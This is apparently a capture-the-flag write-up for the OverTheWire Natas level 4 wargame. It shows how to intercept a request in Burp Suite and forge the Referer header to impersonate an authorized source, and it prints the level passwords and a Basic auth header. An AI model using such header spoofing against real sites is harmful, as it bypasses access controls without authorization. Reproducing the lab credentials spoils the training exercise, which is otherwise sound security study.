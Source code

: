Challenge Information

Natas Level 3 → Level 4

Username: natas4
URL:      http://natas4.natas.labs.overthewire.org


Solution

1. Check the source page.

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>

```

2. Hahaha, found anything, Nothing na??? basically refreshing the page is just redirecting to index.php. But doing so will reveal the the we are posting the position from which we are being re-directed. As the line says that users should come only from natas5 user. We gotta change header file to impoersonate natas5. 
3. Open BurpSuite{The best things to intercept message and networks in between}. head to Proxy and Open brower and post the URL http://natas4.natas.labs.overthewire.org
4. Enter the passowrd and all
5. Open the intercept in BurpSuite. and Refresh the page
6. Check the header files in BurpSuite.

```
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://natas5.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```
7. Change the Referer to natas5.natas.labs.overthewire.org. And Send the request
8. Here you have the password 0n35PkggAPm2zbEpOU802c0x0Msn1ToK